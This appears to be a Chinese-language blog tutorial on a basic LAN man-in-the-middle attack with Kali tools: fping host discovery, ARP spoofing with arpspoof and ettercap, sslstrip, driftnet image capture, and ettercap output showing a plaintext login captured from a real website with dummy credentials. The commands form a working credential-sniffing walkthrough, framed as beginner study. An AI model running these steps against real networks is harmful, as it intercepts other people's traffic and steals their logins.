

记录一个最简单的局域网中间人攻击方法，在kali上实现。
搜索IP
1 | $ fping -g 192.168.1.0/24 |
192.168.1.0是网络地址，24是子网掩码1的位数。
可以搜索出网段内可以ping通的主机，假设现在目标主机为192.168.1.5。
进行arp欺骗
使用arpspoof
arp欺骗可以使用arpspoof命令：1
$ arpspoof -i eth0 -t 192.168.1.5 192.168.1.1
记得开启IP转发，不然目标主机无法上网：1
$ echo 1 > /proc/sys/net/ipv4/ip_forward
使用ettercap
ettercap命令功能更强而且可以嗅探，可以直接使用ettercap命令代替arpspoof：
ettercap是有图形界面的，命令是ettercap -G，集成了更多功能，这里就简单介绍一下命令行方式；
用了ettercap之后就不需要开启IP转发了，因为ettercap可以转发流量，再开启IP转发的话会转发两次。
执行下面的命令，启动ettercap：1
$ ettercap -i eth0 -Tq -M arp:remote //192.168.1.5// //192.168.1.1//
-i指定了网卡；-T选项是文本模式；-q是安静模式；-M也就是--mitm，man in the middle，中间人攻击，arp:remote指定了中间人攻击的模式；- 后面的ip，第一个为目标主机，第二个为网关。
设置好这些参数后，你的笔记本会对目标主机和网管进行双向欺骗，也就是欺骗目标主机你是网关，同时欺骗网关你是目标主机，这样目标主机和网关之间的流量全部经过你的笔记本，你就可以用抓包工具（比如wireshark或者其他各种各样的）进行流量的嗅探了。
抓取明文账号/密码
有些网站的账号密码是用明文的，由于刚刚ettercap指定的-T选项，会自动在终端上显示明文内容：
现在的主流网站都用
https协议加密了，明文传输的网站少之又少，基本都是一些没人管的网站了，这里我找到一个网站：网名网，可以用来实验这个抓取明文账号/密码的功能。
进入他的登陆页面，输入账号和密码，这里我用账号blablablabla,密码12345678。ettercap命令的显示如下：1
2
3
4
5
6
7
8
9
10
11Starting Unified sniffing...
Text only Interface activated...
Hit 'h' for inline help
HTTP : 122.114.69.160:80 -> USER: blablablabla PASS: 12345678 INFO: http://www.wangming5.com/e/member/login/
HTTP : 122.114.69.160:80 -> USER: blablablabla PASS: 12345678 INFO: http://www.wangming5.com/e/member/login/
CONTENT: ecmsfrom=&enews=login&tobind=0&username=blablablabla&password=12345678&lifetime=604800
CONTENT: ecmsfrom=&enews=login&tobind=0&username=blablablabla&password=12345678&lifetime=604800
可以看到抓到了明文账号和密码。
尝试sslstrip
启动ettercap后在另一个终端执行：1
$ sslstrip -afk
可以将https还原为http，并获取解密后的账号/密码。不过浏览器一般会发现攻击者，不允许用户登陆https加密的网站。

抓取图片
抓取图片使用driftnet命令，在启动ettercap进行arp欺骗后执行：1
$ driftnet -i eth0
这个命令会打开一个窗口，直接显示抓到的图片；如果想要保存所有抓到的图片，可以使用-a选项保存所有图片，使用-d选项指定保存图片的路径，这里就用默认参数进行演示。
同样的，只能抓使用
http进行传输的图片，可以用网易进行测试。
效果如下：
summary
- 这种方法属于最简单的中间人攻击，很容易被发现，也基本没什么杀伤力了，这里只是做一个简单的入门学习 :P
- 想要抓取QQ空间照片什么的几年前是可以的，现在都是用
https了，用这种方法是不可能抓得到了。